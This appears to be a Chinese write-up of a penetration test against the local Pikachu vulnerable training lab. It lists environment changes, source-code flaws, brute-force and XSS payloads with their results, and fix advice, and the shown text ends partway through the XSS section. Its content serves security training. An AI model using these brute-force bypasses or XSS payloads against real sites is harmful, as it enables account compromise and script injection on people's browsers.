> 从搭环境、写 harness，到每条 payload、每张截图、每处源码缺陷

| 项目 | 值 |
|---|---|
| 靶场 | Pikachu（本地 phpstudy 部署，http://127.0.0.1/pikachu/） |
| 覆盖模块 | 15 / 15 |
| 用例总数 | 45（通过 45，未通过 0） |
| 截图 | 复现截图 52 张 + 源码截图 15 张 |
| 工具链 | Python 3.12 + Playwright 1.65（Edge headless）+ requests + pymysql |

## 目录

1. [暴力破解 Burteforce](#m1)
2. [跨站脚本 XSS](#m2)
3. [跨站请求伪造 CSRF](#m3)
4. [SQL 注入 SQL-Inject](#m4)
5. [远程代码/命令执行 RCE](#m5)
6. [文件包含 File Inclusion](#m6)
7. [任意文件下载 Unsafe Download](#m7)
8. [不安全文件上传 Unsafe Upload](#m8)
9. [越权访问 Over Permission](#m9)
10. [目录遍历 Directory Traversal](#m10)
11. [敏感信息泄露 Sensitive Info Disclosure](#m11)
12. [PHP 反序列化 PHP Unserialize](#m12)
13. [XML 外部实体注入 XXE](#m13)
14. [URL 重定向 URL Redirect](#m14)
15. [服务端请求伪造 SSRF](#m15)
16. [结果总表](#summary)
17. [修复优先级](#fix)
18. [踩坑清单](#pitfalls)
19. [附录：harness 与环境](#appendix)

## 0. 靶场环境 {#environment}

| 项 | 值 |
|---|---|
| PHP | 7.3.4 (NTS)，php.ini = D:/phpstudy_pro/Extensions/php/php7.3.4nts/php.ini |
| Web | Apache 2.4.39（phpstudy_pro 集成环境），站点根 D:/phpstudy_pro/WWW/pikachu |
| DB | MySQL 5.7 @127.0.0.1:3306，库 pikachu / 账号 pikachu:123456；XSS 后台库 pkxss |
| 入口 | http://127.0.0.1/pikachu/ ，XSS 后台 http://127.0.0.1/pikachu/pkxss/ (admin/123456) |
| 测试账号 | admin/123456、pikachu/000000、test/abc123；member 表 vince/allen/kobe/... 口令均为 123456 |
| 工具 | Python 3.12 + Playwright 1.65（channel=msedge, headless）+ requests 2.33 + pymysql 2.2 |

本次实际改动（其余为已有环境）：

| 位置 | 改动 | 原因 |
|---|---|---|
| php.ini:834 | `;upload_tmp_dir =` → `upload_tmp_dir="D:/phpstudy_pro/Extensions/tmp/tmp"` | 上传全部报「找不到临时文件夹」(UPLOAD_ERR_NO_TMP_DIR)，不修则模块 8 无法复现。备份为 php.ini.bak-helmd。 |
| Apache 重启 | Stop-Process httpd → Start-Process httpd.exe -f conf/httpd.conf | phpstudy_pro.exe 不会自动拉起 Apache，改 ini 后必须手动重启，否则 :80 掉线。 |
| php.ini:853 | `allow_url_include=Off` → `allow_url_include=On` | 远程文件包含（fi02-remote）要真实执行 `include "http://..."` 必须打开该开关；默认 `Off` 时 `http://` 封装器被禁、页面抛 `Warning: include(): http:// wrapper is disabled`。**生产环境应保持 Off** —— 它本身就是这条漏洞最省事的修复。备份为 php.ini.bak-urlinc。 |
| 测试数据 | 写入 D:/pika_secret.txt（内容 PIKA-FILEREAD-MARKER） | 给任意文件下载用例一个可判定的 marker；message 表 seed 3 条用于 DELETE 注入验证。 |

## 1. 暴力破解 Burteforce {#m1}

`风险：中危`　`CWE-307 未限制认证尝试次数`

暴力破解的本质是「服务端没有对失败次数做任何计数」。Pikachu 给了四种变体：纯表单、只有前端 JS 校验、带验证码、带 token。四者的共同点是——防护逻辑要么在客户端，要么在服务端存在但实现有缺陷，所以四种全部可破。

### 源码缺陷

- vul/burteforce/bf_form.php:25 —— `if(isset($_POST['submit']) && $_POST['username'] && $_POST['password'])`，直接拿表单值跑 SQL，无失败计数、无锁定、无验证码。
- inc/showvcode.php:5-7 —— `$_SESSION['vcode']=vcodex(); setcookie('bf[vcode]',$_SESSION['vcode']);` 验证码明文写进 cookie，源码注释自己都吐槽「那验证码还有什么鸟意义」。
- vul/burteforce/bf_server.php:36-38 —— 比对验证码后没有 `unset($_SESSION['vcode'])`，同一枚验证码可无限复用（注释里写着「应该在验证完成后销毁」）。
- vul/burteforce/bf_token.php:36 —— `if($token == $_SESSION['token'])` 松散比较；配合 `inc/function.php:69-73 set_token()` 每次请求重置 token，攻击者只要每次先 GET 取新 token 再 POST，就等价于完全没有 token。



### 复现过程

| 用例 | 载荷 / 操作 | 结果 |
|---|---|---|
| `bf01-form` | `username=admin&password=123456&submit=Login` |  基于表单的暴力破解 点一下提示~ Please Enter Your Information login success Pikachu PIKA~ PIKA~© runner.han |
| `bf02-client` | `admin/123456 + HTMLFormElement.prototype.submit()` | lient) 点一下提示~ Please Enter Your Information login success Pikachu PIKA~ PIKA~© runner.han |
| `bf03-vcode-reuse` | `cookie bf[vcode]=uonubs（同一码连用两次）` | 1st:ts～ Pikachu PIKA~ PIKA~© runner.han \| 2nd:ess Pikachu PIKA~ PIKA~© runner.han |
| `bf04-token` | `GET 取 token -> POST 提交（每次一枚新 token）` | 连续 3 次失败均放行:['IKA~ PIKA~© runner.han', 'IKA~ PIKA~© runner.han', 'IKA~ PIKA~© runner.han'] \| 第 4 次正确口令:ikachu PIKA~ PIKA~© runner.han |

**bf01-form** — 暴力破解-form 版(无任何防护)



**bf02-client** — 前端验证绕过:直接原生 submit 跳过 onsubmit



**bf03-vcode-reuse** — 服务端验证码:明文写 cookie bf[vcode] + 验证后不销毁



**bf04-token** — token 防护:每次 GET 现取 token 即可继续爆破(无失败锁定/无验证码)



### 修复建议

- 服务端按「账号 + 来源 IP」双维度计数，失败 5 次锁定 15 分钟或指数退避（sleep 递增），并且只对真实失败计数。
- 验证码：服务端生成、只存 session、一次性消费（比对后立即 unset）、5 分钟过期、禁止写入 cookie；图形验证码外再叠一层行为验证。
- token 用 `bin2hex(random_bytes(32))` 生成，`hash_equals()` 严格比较，一次性使用并与 session 绑定。
- 登录失败统一返回「用户名或密码错误」，不区分账号是否存在；记录审计日志并对同一 IP 的失败率告警。

## 2. 跨站脚本 XSS {#m2}

`风险：高危`　`CWE-79 输出未编码`

Pikachu 的 XSS 分三块：反射型（GET/POST）、存储型、DOM 型，外加四个「绕过过滤」的专项页面和盲打后台。核心成因只有一个：用户输入被拼进 HTML/JS 上下文时没有做上下文相关的输出编码。四个专项页恰好演示了四种常见的「半吊子防护」：黑名单过滤标签、htmlspecialchars 少参数、只挡引号不挡伪协议、变量直出 script。

### 源码缺陷

- vul/xss/xss_reflected_get.php:20-22 —— `$message=$_GET['message'];` 后直接 `$html.="<p>...{$message}...</p>"`，零编码。
- vul/xss/xss_stored.php:40-43 —— 留言原样入库、原样输出，构成持久化攻击面（该文件 33-35 行还藏了一处 `delete from message where id={$_GET['id']}` 的 DELETE 注入彩蛋）。
- vul/xss/xss_dom.php:48-53 —— `document.getElementById('dom').innerHTML="<a href='"+str+"'>..."`，前端 innerHTML 拼接，数据根本不经服务端。
- vul/xss/xss_01.php:21 —— `preg_replace('/<(.*)s(.*)c(.*)r(.*)i(.*)p(.*)t/','',$_GET['message'])`，只过滤 script 字样。
- vul/xss/xss_02.php:26 —— `htmlspecialchars($_GET['message'])` 漏掉 ENT_QUOTES，默认只转双引号，单引号逃逸属性。
- vul/xss/xss_03.php:29 —— `htmlspecialchars(...,ENT_QUOTES)` 本身没错，但输出落在 `<a href='{$message}'>`，`javascript:` 伪协议不属于「引号问题」，点一下照样执行。
- vul/xss/xss_04.php:33 —— `$jsvar=$_GET['message'];` 直接写进 `<script>` 的字符串字面量，34 行的 htmlspecialchar 被注释掉了。



### 复现过程

| 用例 | 载荷 / 操作 | 结果 |
|---|---|---|
| `xss01-reflected-get` | `<script>alert(document.domain)</script>` | 弹窗:['127.0.0.1'] |
| `xss02-reflected-post` | `<script>alert(document.domain)</script>` | 弹窗:['127.0.0.1'] |
| `xss03-stored` | `<script>alert(document.domain)</script>` | 提交弹窗1次 / 重新访问累计2次 |
| `xss04-dom` | `'>` | 弹窗:['dom-xss'] |
| `xss05-bypass01` | `` | 弹窗:['xss01'] |
| `xss06-bypass02` | `' onclick='alert(1)` | 弹窗:['1'] |
| `xss07-bypass03` | `javascript:alert('xss03')` | 弹窗:['xss03'] |
| `xss08-bypass04` | `';alert('xss04');//` | 弹窗:['xss04'] |
| `xss09-blind` | `<script>alert('blind-xss')</script>` | admin 后台弹窗:['blind-xss', 'blind-xss', 'blind-xss', 'blind-xss', 'blind-xss'] |

**xss01-reflected-get** — 反射型XSS(GET):message 直接回显


**xss02-reflected-post** — 反射型XSS(POST):登录后 message 回显执行脚本



**xss03-stored** — 存储型XSS:入库后每次访问都触发



**xss04-dom** — DOM 型XSS:innerHTML 拼接 href（数据不落服务端）



**xss05-bypass01** — xss_01:黑名单只过滤 script 标签，换 img onerror


**xss06-bypass02** — xss_02:htmlspecialchars 缺 ENT_QUOTES -> 单引号逃逸属性



**xss07-bypass03** — xss_03:ENT_QUOTES 只挡引号，挡不住 